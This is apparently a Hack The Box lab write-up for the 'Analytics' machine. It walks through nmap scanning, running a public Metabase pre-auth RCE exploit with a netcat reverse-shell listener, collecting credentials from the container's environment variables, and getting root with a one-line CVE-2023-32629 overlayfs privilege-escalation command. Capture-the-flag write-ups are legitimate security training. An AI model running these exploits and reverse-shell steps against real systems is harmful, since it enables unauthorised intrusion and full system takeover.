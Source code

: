 ```yaml
---
title: Hack the box - Analytics pwned!
date: 2024-03-02 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, machine, analytics, docker, metabase, CVE-2023-32629]
img_path: /assets/img/posts/
---
```


## Machine info

![Analytics](htb-analytics-info.png)
*Analytics info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.101
>
>Target machine (victim, Devvortex): 10.10.11.233
{: .prompt-info}

## Enumeration

If we list the open ports in the machine, we can see that there are two open ports: 22 (ssh) and 80 (http):

`nmap -Pn -n -sS -p- -T5 --min-rate 5000 -oN nmap_initial.txt 10.10.11.233`

```
22/tcp open  ssh
80/tcp open  http
```

## Footprinting

If we look for more information about the services running in those ports we will find the machine address:

`nmap -Pn -n -sVC -p22,80 10.10.11.233`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add the machine address to our `/etc/hosts`:

`echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts`

Now, we browse to the web to take a look:

![Analytics web](htb-analytics-web.png)
*Analytics web*

If we go to the login page it will not work:

![Analytics web login error](htb-analytics-web-login-error.png)
*Analytics web login error*

The login page it's under the domain `data.analytical.htb`, so let's add it to our `/etc/hosts`:

`echo "10.10.11.233 data.analytical.htb" | sudo tee -a /etc/hosts`

And, let's reload the login page

![Analytics web login page](htb-analytics-web-login.png)
*Analytics web login page*

## Foothold

### Docker container

We can see that is using `metabase`, so let's look for vulnerabilities:

`searchsploit metabase`

`Metabase 0.46.6 - Pre-Auth Remote Code Execution | linux/webapps/51797.py`

Ok, we got one.
It's a RCE (Remote Code Execution), so we will start listening on our side to try to get a remote shell:

`nc -lvnp 1234`

And, now we copy the script to our working directory and we run it:

`cp /opt/exploitdb/exploits/linux/webapps/51797.py metabase_exploit.py`

`sudo python3 metabase_exploit.py --lhost 10.10.16.101 --lport 1234 --sport 80 --url http://data.analytical.htb`

We got shell, but inside a docker container.
If we print the environment variables, we will find some credentials:

```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=16a5278f5551
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8

META_USER=metalytics
META_PASS=fakepassword

MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=2
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
```

### metalytics

With our new credentials, we will login through ssh:

`ssh metalytics@10.10.11.233`

First, we get our user flag:

`cat user.txt`

And, now, we see that with our new user we will not be able to escalate privileges...

```
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

If we look the system version we can see that is a vulnerable Ubuntu version.

```
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/linux
```

The vulnerability is [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629), so we will exploit it to gain root privileges:

`unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'`

Now that we are root, we can get our system flag:

`cat /root/root.txt`

## Pwned!

![Analytics](htb-analytics-pwned.png)
*Analytics has been Pwned*

*Enjoy! ;)*
